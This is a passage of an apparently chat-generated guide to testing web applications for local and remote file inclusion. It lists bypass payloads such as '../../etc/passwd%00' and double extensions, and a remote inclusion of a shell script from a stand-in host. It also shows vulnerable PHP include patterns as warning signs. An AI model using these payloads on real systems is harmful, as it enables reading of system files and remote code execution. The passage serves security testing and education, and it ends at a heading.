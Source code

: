     - Applications may expect specific file types:
        - Add extensions: `.php`, `.txt`, `.log`.
        - Use null byte terminators (`%00`) to bypass filters:
            
            bash
            
            Copy code
            
            `../../etc/passwd%00`
            
4. **Testing for Remote File Inclusion (RFI)**
    
    - If URLs are allowed, try including remote scripts:
        
        arduino
        
        Copy code
        
        `http://malicious.example.com/shell.txt`
        
    - Check if the file is executed or included in the response.
5. **Checking for Extension Filters**
    
    - Some applications whitelist or blacklist extensions:
        - Test bypasses with double extensions: `file.php.txt`.
6. **Monitoring Responses and Logs**
    
    - Observe changes in page layout or behavior.
    - Look for clues in server logs (if accessible).

---

## 📝 **Red Flags in Source Code**

1. **Dynamic Includes**:
    
    - Example:
        
        php
        
        Copy code
        
        `include($_GET['page']);   require($_POST['file']);`  
        
2. **User-Controlled Input in File Paths**:
    
    - Concatenating user input with file paths:
        
        php
        
        Copy code
        
        `$file = $_GET['file']; include("/templates/" . $file);`
        
3. **Lack of Sanitization**:
    
    - No validation or restrictions on user input.

---

## 📝 **Tools for File Inclusion Testing**
